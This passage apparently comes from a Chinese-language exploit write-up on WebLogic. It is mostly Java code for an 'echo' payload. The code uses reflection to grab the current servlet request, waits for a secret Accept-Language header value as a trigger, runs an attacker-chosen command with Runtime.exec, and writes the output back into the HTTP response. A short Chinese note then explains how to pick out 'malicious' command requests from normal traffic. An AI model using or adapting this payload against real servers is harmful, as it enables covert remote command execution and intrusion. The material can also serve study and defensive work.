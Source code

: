 ```java
    }

    private static Object getFV(Object var0, String var1) throws Exception {
        Field var2 = null;
        Class var3 = var0.getClass();

        while(var3 != Object.class) {
            try {
                var2 = var3.getDeclaredField(var1);
                break;
            } catch (NoSuchFieldException var5) {
                var3 = var3.getSuperclass();
            }
        }

        if (var2 == null) {
            throw new NoSuchFieldException(var1);
        } else {
            var2.setAccessible(true);
            return var2.get(var0);
        }
    }

    public static void WeblogicEchoTemplate(){
        try{
            Object adapter = Class.forName("weblogic.work.ExecuteThread").getDeclaredMethod("getCurrentWork").invoke(Thread.currentThread());
            Object res;
            if(!adapter.getClass().getName().endsWith("ServletRequestImpl")){
                Field field = adapter.getClass().getDeclaredField("connectionHandler");
                field.setAccessible(true);
                Object obj = field.get(adapter);
                adapter = obj.getClass().getMethod("getServletRequest").invoke(obj);
            }
            String var15 = (String) adapter.getClass().getMethod("getHeader", String.class).invoke(adapter, "Accept-Language");
            if (var15 != null && var15.equals("zh-CN,zh;q=1.9")) {
                String result = new Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next();
                res = adapter.getClass().getMethod("getResponse").invoke(adapter);
                Object sin = Class.forName("weblogic.xml.util.StringInputStream").getConstructor(String.class).newInstance(result);
                Object out = res.getClass().getDeclaredMethod("getServletOutputStream").invoke(res);
                out.getClass().getDeclaredMethod("writeStream",Class.forName("java.io.InputStream")).invoke(out,sin);
                out.getClass().getDeclaredMethod("flush").invoke(out);
                Object w = res.getClass().getDeclaredMethod("getWriter").invoke(res);
                w.getClass().getDeclaredMethod("write",String.class).invoke(w,"");
            }
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```
### 区分命令请求和正常业务请求
因为当前代码执行的方式是通过类的静态代码块，不能直接拿到当前的Request，所以只能通过上下文，获取所有web请求，遍历，筛选出“恶意请求”
